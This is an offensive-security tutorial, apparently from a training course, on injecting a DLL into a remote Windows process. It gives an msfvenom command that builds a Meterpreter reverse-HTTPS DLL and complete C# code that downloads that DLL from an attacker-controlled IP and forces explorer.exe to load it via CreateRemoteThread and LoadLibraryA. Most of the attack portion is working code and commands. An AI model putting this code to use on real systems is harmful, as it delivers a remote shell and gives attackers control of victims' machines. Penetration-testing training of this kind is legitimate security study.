

:orphan:
(dll-injection)=

# DLL Injection

We were able to run arbitrary shellcode by using process injection to inject it into a remote process.
This worked great for shellcode, but we might like to inject a full DLL into a remote process rather than simply shellcode for larger codebases or DLLs that have already been created.

## DLL Injection Theory

A process uses the LoadLibrary256 API to load a DLL's API into virtual memory when it wants to use it. In our situation, we want the remote process to use Win32 APIs to load our DLL. We must use a few methods to compel a process like explorer.exe to load our DLL because LoadLibrary can't be called on a remote process. The name of the DLL to load (lpLibFileName) is the only input required by the LoadLibrary method.

```cpp
HMODULE LoadLibraryA(
 LPCSTR lpLibFileName
);
```

> There are often two variations of Win32 APIs, each ending in "A" or "W." It would be LoadLibraryA or LoadLibraryW in this case and specifies whether any string parameters should be given in ASCII ("A") or Unicode ("W") but otherwise denote the same functionality.

We'll use deception to persuade the remote process to call LoadLibrary with the appropriate argument. Recall that the start location of the function that runs in the new thread is sent as the fourth argument when executing `CreateRemoteThread`, and the memory address of a buffer holding the arguments for that function is passed as the fifth argument.

The goal is to locate `LoadLibraryA`'s internal address and call it while providing the name of the DLL we wish to load. When calling `CreateRemoteThread`, if the address of `LoadLibraryA` is provided as the fourth argument, it will be called.

We must allocate a buffer inside the remote process and copy the name and path of the DLL into it in order to provide the name of the DLL to `LoadLibraryA`. The address of this buffer can then be sent to CreateRemoteThread as the fifth argument, where it will then be utilized with `LoadLibrary`.

There are a few limitations, nevertheless, that we must take into account. The DLL must initially be unmanaged and written in C or C++. Because a managed DLL cannot be loaded into an unmanaged process, the managed C#-based DLL that we have been working with thus far will not function.

Second, DLLs typically have APIs that are used once the DLL has been loaded. An application would need to use GetProcAddress to "resolve" the names of these APIs to the memory addresses before calling them. GetProcAddress is unable to resolve an API in a remote process, so we must use non-standard techniques to create our malicious DLL.

Let's talk about this strategy for a bit. LoadLibrary calls the DllMain258 function, which initializes variables and indicates that the DLL is prepared for use, as part of its functionality.

```cpp 
BOOL WINAPI DllMain(
 _In_ HINSTANCE hinstDLL,
 _In_ DWORD fdwReason,
 _In_ LPVOID lpvReserved
);
```
Depending on the reason code (fdwReason) argument that specifies the purpose of calling the DLL entry-point function, DllMain often executes several actions.
This is evident in the DllMain code that is not handled.

```cpp
BOOL APIENTRY DllMain( HMODULE hModule, 
DWORD ul_reason_for_call, LPVOID lpReserved) {
 switch (ul_reason_for_call) {
    case DLL_PROCESS_ATTACH:
    case DLL_THREAD_ATTACH:
    case DLL_THREAD_DETACH:
    case DLL_PROCESS_DETACH:
    break;
    }
    return TRUE;
}
```

The `DLL_PROCESS_ATTACH` reason code is sent to `DllMain` when the DLL is being loaded into the virtual memory address space as a result of a call to `LoadLibrary`, as indicated in the MSDN documentation. As a result, we must define our shellcode as a custom API provided by.

In the `DLL_PROCESS_ATTACH` switch case of our malicious DLL, we could insert our shellcode, which would then be run when `LoadLibrary` called `DllMain`.
For this method to work, we must either create and compile a unique unmanaged DLL in C or C++ that will run shellcode when the DllMain function is called, or we must utilize a framework to produce one.

Since programming in C and C++ is outside the purview of this module, in the next section, we'll make use of the latter method and the aforementioned method to create a Meterpreter DLL with msfvenom.

## DLL Injection with C#

Let's start by using msfvenom to create our DLL and storing the file to our site root:

```bash
kali@kali:~$ sudo msfvenom -p windows/x64/meterpreter/reverse_https
LHOST=192.168.119.120 LPORT=443 -f dll -o /var/www/html/met.dll
```

We will build a new C#.NET Standard Console application to carry out the DLL injection technique, which will fetch our DLL from the web server of the attacker. As LoadLibrary only takes files that are physically existent on disk, we will next write the DLL to disk.

```csharp
using System.Net;
//...
String dir = Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
String dllName = dir + "\\met.dll";
WebClient wc = new WebClient();
wc.DownloadFile("http://192.168.119.120/met.dll", dllName);
```
Next, we’ll resolve the process ID of explorer.exe and pass it to OpenProcess

```cs
Process[] expProc = Process.GetProcessesByName("explorer");
int pid = expProc[0].Id;
IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
```
The following step involves using `VirtualAllocEx` to allocate memory that is both readable and written in the remote process, then `WriteProcessMemory` to copy the location and name of the DLL into it.

```cs
IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x4);
IntPtr outSize;
Boolean res = WriteProcessMemory(hProcess, addr, Encoding.Default.GetBytes(dllName),
dllName.Length, out outSize);
```

The memory address of `LoadLibrayA` inside the remote process will then be found. Fortunately, the majority of native Windows DLLs are allocated at the same base address across processes, therefore LoadLibraryA's address in our current process and the remote process will match.

We'll resolve it using `GetModuleHandle` and `GetProcAddress`, find its address, and then add the relevant DllImport statements:

```cs
IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"), "LoadLibraryA");
```
Invoking CreateRemoteThread with both a starting address and an argument address is our last option.


```cs
IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib, addr, 0,
IntPtr.Zero);
```

Our full DLL injection code is as follows:

```cs
using System;
using System.Diagnostics;
using System.Net;
using System.Runtime.InteropServices;
using System.Text;
namespace Inject {
 class Program {
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr OpenProcess(uint processAccess, bool bInheritHandle, int
    processId);
    [DllImport("kernel32.dll", SetLastError = true, ExactSpelling = true)]
    static extern IntPtr VirtualAllocEx(IntPtr hProcess, IntPtr lpAddress, uint
    dwSize, uint flAllocationType, uint flProtect);
    [DllImport("kernel32.dll")]
    static extern bool WriteProcessMemory(IntPtr hProcess, IntPtr lpBaseAddress,
    byte[] lpBuffer, Int32 nSize, out IntPtr lpNumberOfBytesWritten);
    [DllImport("kernel32.dll")]
    static extern IntPtr CreateRemoteThread(IntPtr hProcess, IntPtr
    lpThreadAttributes, uint dwStackSize, IntPtr lpStartAddress, IntPtr lpParameter, uint
    dwCreationFlags, IntPtr lpThreadId);
    [DllImport("kernel32", CharSet = CharSet.Ansi, ExactSpelling = true,
    SetLastError = true)]
    static extern IntPtr GetProcAddress(IntPtr hModule, string procName);
    [DllImport("kernel32.dll", CharSet = CharSet.Auto)]
    public static extern IntPtr GetModuleHandle(string lpModuleName);
    static void Main(string[] args) {
        String dir =
        Environment.GetFolderPath(Environment.SpecialFolder.MyDocuments);
        String dllName = dir + "\\met.dll";
        WebClient wc = new WebClient();
        wc.DownloadFile("http://192.168.119.120/met.dll", dllName);
        Process[] expProc = Process.GetProcessesByName("explorer");
        int pid = expProc[0].Id;
        IntPtr hProcess = OpenProcess(0x001F0FFF, false, pid);
        IntPtr addr = VirtualAllocEx(hProcess, IntPtr.Zero, 0x1000, 0x3000, 0x40);
        IntPtr outSize;
        Boolean res = WriteProcessMemory(hProcess, addr,
        Encoding.Default.GetBytes(dllName), dllName.Length, out outSize);
        IntPtr loadLib = GetProcAddress(GetModuleHandle("kernel32.dll"),
        "LoadLibraryA");
        IntPtr hThread = CreateRemoteThread(hProcess, IntPtr.Zero, 0, loadLib,
        addr, 0, IntPtr.Zero);
        }
    }
}
```

With Process Explorer, we can see every DLL that has been loaded into the processes. Selecting DLLs under View > Lower Pane View after choosing the explorer.exe process is the next step. As expected, we locate `met.dll` by scrolling down.



We are able to load an unmanaged DLL into a remote process by repurposing the process injection techniques. Unfortunately, using this method does write the DLL to the hard drive. We'll address this problem in the blog posts (at the library) after this.

:::{seealso}
Looking to expand your knowledge of vulnerability research and exploitation? Check out our online course, [MVRE - Certified Vulnerability Researcher and Exploitation Specialist](https://www.mosse-institute.com/certifications/mvre-vulnerability-researcher-and-exploitation-specialist.html) In this course, you'll learn about the different aspects of software exploitation and how to put them into practice.
:::